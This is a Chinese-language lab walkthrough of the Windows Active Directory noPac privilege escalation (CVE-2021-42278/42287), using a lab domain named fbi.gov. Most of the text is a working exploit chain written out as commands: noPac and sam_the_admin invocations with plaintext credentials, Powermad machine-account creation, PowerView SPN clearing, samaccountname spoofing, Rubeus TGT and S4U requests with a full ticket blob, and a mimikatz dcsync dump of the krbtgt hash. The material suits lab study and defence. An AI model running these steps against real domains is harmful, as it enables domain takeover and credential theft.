

Windows域服务权限提升（CVE-2021-42287） 漏洞原理 Microsoft Windows Active Directory 域服务权限提升漏洞（CVE-2021-42278、CVE-2021-42287）攻击者可利用该漏洞将域内的普通用户权限提升到域管理员权限，造成风险和危害极大。
靶场环境： 1 2 3 域：fbi.gov 域控：dc.fbi.gov 普通域用户：fbi\fileserver
影响范围
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 CVE-2021-42278 ￮ Windows Server 2012 R2 ￮ Windows Server 2012 (Server Core installation) ￮ Windows Server 2012 ￮ Windows Server 2008 R2 for x64-based Systems Service Pack 1(Server Core installation) ￮ Windows Server 2008 R2 for x64-based Systems Service Pack 1 ￮ Windows Server 2008 for x64-based Systems Service Pack 2(Server Core installation) ￮ Windows Server 2008 for x64-based Systems Service Pack 2 ￮ Windows Server 2008 for 32-bit Systems Service Pack 2(Server Core installation) ￮ Windows Server 2008 for 32-bit Systems Service Pack 2 ￮ Windows Server 2016 (Server Core installation) ￮ Windows Server 2016 ￮ Windows Server, version 20H2 (Server Core Installation) ￮ Windows Server, version 2004 (Server Core installation) ￮ Windows Server 2022 (Server Core installation) ￮ Windows Server 2019 (Server Core installation) ￮ Windows Server 2022￮ Windows Server 2019 ￮ Windows Server 2012 R2 (Server Core installation)
利用条件 1 2 3 （1）一个普通域成员帐户。 （2）域用户有创建机器用户的权限（一般默认权限）。 （3）DC未打补丁KB5008380或KB5008602。
直接利用一（noPac.py） https://github.com/cube0x0/noPac
扫描探测（noPac.py）
1 .\noPac.exe scan -domain fbi.gov -user fileserver -pass 'QWEasd1234'
直接利用（noPac.py）
1 .\noPac.exe -domain fbi.gov -user fileserver -pass 'QWEasd1234' /dc dc.fbi.gov /mAccount garck /mPassword pass123 /service cifs /ptt
若用户存在的话，则会显示对象已经存在
当服务器xxx时，再攻击DC域控的时候会出现下面的情况
直接利用二（sam_the_admin.py） 注意⚠️：从域外环境已知域内一个普通用户密码直接拿DC shell或者域内所有hash（IP为访问到）。
https://github.com/WazeHell/sam-the-admin
1 python3 sam_the_admin.py fbi.gov/fileserver:'QWEasd1234' -dc-ip 192.168.8.11 -shell
当服务器xxx时，再攻击DC域控的时候会出现下面的情况
本地复现 1、普通域成员账户 Text 1 net user fileserver /domain
2、利用 powermad.ps1 新增机器帐号testspn（域用户默认可以新建机器账户） 下载地址：https://github.com/Kevin-Robertson/Powermad
1 2 3 4 Import-Module .\Powermad.ps1 //若报错执行 Set-ExecutionPolicy Unrestricted New-MachineAccount -MachineAccount testspn -Domain fbi.gov -DomainController dc.fbi.gov -Verbose //密码输入123.com
3、Clear its SPNs（利用PowerView清除SPN信息） 更改执行策略，以管理员身份打开 PowerShell 输入：
Text 1 >> set-executionpolicy remotesigned
Text 1 2 如果要更改回Windows 客户端计算机的默认执行策略，则设置为restricted：set-executionpolicy restricted
1 2 3 //需要ps1版本impact套件 Import-Module .\PowerView.ps1 Set-DomainObject "CN=testspn,CN=Computers,DC=fbi,DC=gov" -Clear 'serviceprincipalname' -Verbose
4、Reset the computer name（利用Powermad重设机器名称） 1 2 Set-MachineAccountAttribute -MachineAccount testspn -Value "dc" -Attribute samaccountname -Verbose //由于当前DC SPN账户为dc$，故要设置为dc进行伪造
5、Request TGT （请求TGT） 1 2 .\Rubeus.exe asktgt /user:dc /password:123.com /domian:fbi.gov /dc:dc.fbi.gov /nowrap .\Rubeus.exe asktgt /user:administrator /password:123.com /domian:fbi.gov /dc:dc.fbi.gov /nowrap
6、Change Machine Account samaccountname（还原初始账户属性） 1 2 //重新还原机器帐户属性后，现在就可以使用能检索到的TGT请求S4U2self票证来获得使用DC密钥加密的ST，同时还可以将票证中的sname重写为LDAP服务 Set-MachineAccountAttribute -MachineAccount testspn -Value "testspn" -Attribute samaccountname -Verbose
7、Request S4U2self（获取票据） 1 ./Rubeus.exe s4u /impersonateuser:Administrator /nowrap /dc:dc.fbi.gov /self /altservice:LDAP/dc.fbi.gov /ptt /ticket:doIEeDCCBHSgAwIBBaEDAgEWooIDojCCA55hggOaMIIDlqADAgEFoQkbB0ZCSS5HT1aiHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2ZiaS5nb3ajggNkMIIDYKADAgESoQMCAQKiggNSBIIDTrthGAetrVBk/8RvLbf8KpocXuH9ewn4Cr3y1yM/SGY9QvfoS5TKeRBCraXNHZZxnAumMZ3zM8smSeA35epcmXPJaVSPTKYCQoI5f5dwXQUAgFEtzeqreVLkUJKg2rXB0mi4pzSEbOa+y8t3EJLVE+p42gzKG6FaI31OnBEqKOUfM0U8LECZVDsZlD9GMn/Atf/jYQovWtcW+NWFJDh/dw6pxCRDUDmCmpCH538Tz9QTB2S8PhHnZqjrzLtnIeXE7eRAg49ruoHKAV6rdrfl5HD2rziAadBKDQ1H2eLne8AtuBo+I1GGlnZoIEty7TnITtXDlPll+O5Qes+e3gkI1omlhJAKTw2rOgQzlQwavp8FCu/Z4LMZ6M85/sD4lg5azJqp/w9VwnPZ1jCYx/CU0/vfQDci5ePx4h2yYo2o6ID21q8Wrg53rfMXvl+MYrrhH5lHxo4Uv5J6wkURiZZLx8rokSU2gCBuFaYe6iOyHUQIpC1XGlSwy9V/5MHbukibBH+ixhnP/ATprJiPSj6CaPpGgdllbWl0YyexFTg96CaLIRV1uBAlm266RDxxUHEBOsWZZIsDnw0B4dUTlhgKB4j5MY9y/aEoWb8mdvpsVDgA1GN5uZyfXyctvNSKfkyMNB2kZySj6esAW6L5n2pcAMnAIqZEQfP2zO5t8eRQOP4Yl7CdMRDPA5bbjdZp6wYLKgBYzKdxQyAbjkbQIWVVB15zQkc1Yc9POZPVlfxPF9JwJKq21jPf7QvXs3n1ebaQbputQIMpsEnywcEAzgW7Oy4uejdn3zi4fET57RXXBFOaqxLKf4KDPyqip5GDGtVJqGDK/vUO5zSin7v5mEWF7kinucZlgTSg5iMzgSdGC//joD9xElA65f/iQCIeOOUl+iDFs/tf8EQZvEQKbp88LI6KcDqYvJ3Ge1rvFIQwhGxsLWsAAutkFMn111nyKBTmqi/+OllYPbZhkHRglUBB80SXK85BUhL3a3O3JR3tHlHTz+A0DOUloiYDVn4qhx76rPFSkhdnH9ZdxX9I/PAkJDYnGubfoMo+/5OhcQG1WWQP8XkjwllcOKTmf1HTOLXUtXFkpos8F/84+Z+g9mKzk3QlcCzRfLQ8j+ntOeGGWqOBwTCBvqADAgEAooG2BIGzfYGwMIGtoIGqMIGnMIGkoBswGaADAgEXoRIEEIZs7uBBRhm/zUWKNCQGYYChCRsHRkJJLkdPVqIPMA2gAwIBAaEGMAQbAmRjowcDBQBA4QAApREYDzIwMjIwNDA2MTU0MzQwWqYRGA8yMDIyMDQwNzAxNDM0MFqnERgPMjAyMjA0MTMxNTQzNDBaqAkbB0ZCSS5HT1apHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2ZiaS5nb3Y==

8、获取 kbrtgt 用户的 NTLM Hash 1 2 3 4 mimikatz.exe lsadump::dcsync /domain:fbi.gov /user:krbtgt //一句话输出 mimikatz.exe "lsadump::dcsync /domain:fbi.gov /user:krbtgt" exit >dcsync.txt